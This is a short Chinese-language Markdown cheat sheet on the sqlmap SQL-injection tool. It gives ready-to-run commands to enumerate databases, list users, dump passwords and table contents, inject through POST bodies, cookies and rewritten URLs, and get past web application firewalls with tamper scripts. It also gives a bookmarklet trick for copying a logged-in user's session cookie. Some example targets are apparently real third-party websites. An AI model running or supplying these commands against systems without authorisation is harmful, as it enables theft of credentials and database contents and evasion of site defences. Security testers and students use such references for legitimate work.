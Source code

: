 # Sqlmap使用
### 常规用法
- `python sqlmap.py -u "地址" --dbs` 列取数据库的所有库
- `python sqlmap.py -u "地址" --users` 查询所有用户
- `python sqlmap.py -u "地址" --passwords` 查询账户和密码
- `python sqlmap.py -u "地址" --current-db` 列取当前数据库
- `python sqlmap.py -u "地址" --current-user` 查询当前用户
- `python sqlmap.py -u "地址" -D 库名 --tables` 查询库中所有表
- `python sqlmap.py -u "地址" -D 库名 -T 表名 --columns` 查询指定库指定表中所有列
- `python sqlmap.py -u "地址" -D 库名 -T 表名 -C 字段,字段,字段 --dump` 查询指定库指定表指定列名的字段
- `-D 库名 -T 表名 -C 字段,字段 -start 1 -stop 10 --dump` 导出 1 到 10 行的字段

### sqlmap post 注入

结合 burpsuite 来使用 sqlmap:
1. 浏览器打开目标地址http:// www.2cto.com /Login.as
2. 配置 burp 代理 (127.0.0.1:8080) 以拦截请求
3. 点击 login 表单的 submit 按钮
4. 这时候 Burp 会拦截到了我们的登录 POST 请求
5. 把这个 post 请求复制为 txt, 我这命名为 search-test.txt 然后把它放至 sqlmap 目录下
6. 运行 sqlmap 并使用如下命令： `python sqlmap.py -r search-test.txt -p tfUPass` 参数 -r 是让 sqlmap 加载 post 请求 rsearch-test.txt， 而 -p 指定注入用的参数。

### sqlmap cookies注入

`sqlmap.py -u “http://127.0.0.1/base.php” –cookies “id=1″ –dbs –level 2`

默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level 参数且数值>=2的时候也会检查cookie时面的参数，当>=3的时候将检查User-agent和Referer，那么这就很简单了，我 们直接在原有的基础上面加上 –level 2 即可

利用sqlmap cookies注入突破用户登录继续注入 先把用户登陆的cookie拿到吧， 在收藏夹添加一个链接cookies属性： 名字自己取 javascript:alert(document.cookie)，，需要获取当前cookie的时候， 直接点一下这个链接，然后复制一下弹出对话框 里的cookie值就搞定了

`python sqlmap.py -u http://x.x.x.x/Down.aspx?tid=2 -p tid –dbms mssql –cookie=”info=username=test”`

-p是指指定参数注入

### sqlmap遇到url重写的注入

哪里存在注入就加上 * 号 `python sqlmap.py -u “http://www.cunlide.com/id1/1*/id2/2“`

### sqlmap 编码绕waf注入

- `python sqlmap.py -u http://127.0.0.1/test.php?id=1 -v 3 –dbms “MySQL” –technique U -p id –batch –tamper “space2morehash.py”`

在sqlmap 的 tamper目录下有很多space2morehash.py 编码脚本自行加载

### 相关链接
- https://www.freebuf.com/sectool/164608.html
- http://www.91ri.org/3574.html
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE5MzAwNzkwOTRdfQ==
-->